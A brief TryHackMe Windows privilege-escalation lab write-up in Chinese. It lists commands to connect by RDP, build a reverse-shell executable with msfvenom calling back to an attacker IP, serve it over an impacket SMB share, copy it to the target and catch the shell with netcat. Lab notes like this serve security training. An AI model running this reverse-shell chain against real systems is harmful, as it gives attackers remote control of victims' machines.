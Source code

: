 ```yaml
---
layout: post
title: "Windows PrivEsc v1.0"
description: ""
date: 2023-07-11
categories:
  - TryHackMe_Lab
  - THM_Windows_Post_Exploitation
author: ""
tags: ['TryHackMe_Lab', 'Windows_Post_Exploitation', 'Enumerate']
---
```




# Windows PrivEsc v1.0
###### tags: `TryHackMe` `window提權` 


### RDP 連接:
```
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.26.90
```




### 生成payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.70.197 LPORT=53 -f exe -o reverse.exe

```



### 開啟smb 分享目錄:

* 設置kali 為目錄名
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali ~/Desktop/

```

### 從kali複製reverse.exe 到window

```
copy \\10.18.70.197\kali\reverse.exe C:\PrivEsc\reverse.exe

```


### netcat 監聽:

```
sudo nc -nvlp 53
```
